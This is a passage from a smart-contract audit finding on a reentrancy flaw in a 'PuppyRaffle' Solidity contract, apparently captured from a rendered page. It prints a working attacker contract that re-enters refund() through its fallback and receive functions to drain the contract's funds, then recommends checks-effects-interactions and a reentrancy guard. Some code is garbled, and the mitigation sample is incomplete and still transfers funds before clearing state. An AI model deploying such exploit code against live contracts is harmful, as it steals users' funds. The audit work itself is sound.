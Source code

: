 ```solidity
// ReentrancyAttacker contract that exploits the vulnerability
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address ;
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance < entranceFee) return;
        puppyRaffle.refund(attackerIndex);
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```


**Recommended Mitigation:**

To mitigate the reentrancy vulnerability, consider the following approaches:

**Use the "checks-effects-interactions" pattern:**  
   This pattern ensures that all checks and state updates (effects) are performed before making any external calls (such as transferring funds). This prevents an attacker from re-entering the contract during an external call. Ensure that the state is updated before transferring funds to external addresses.

**Add a reentrancy guard modifier:**  

Use a reentrancy guard to prevent recursive calls into the contract. You can use OpenZeppelin's `ReentrancyGuard` modifier to prevent reentrancy attacks.

Example:
```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract PuppyRaffle is ReentrancyGuard {
    function refund(uint256 playerIndex) public nonReentrant {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);
        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```
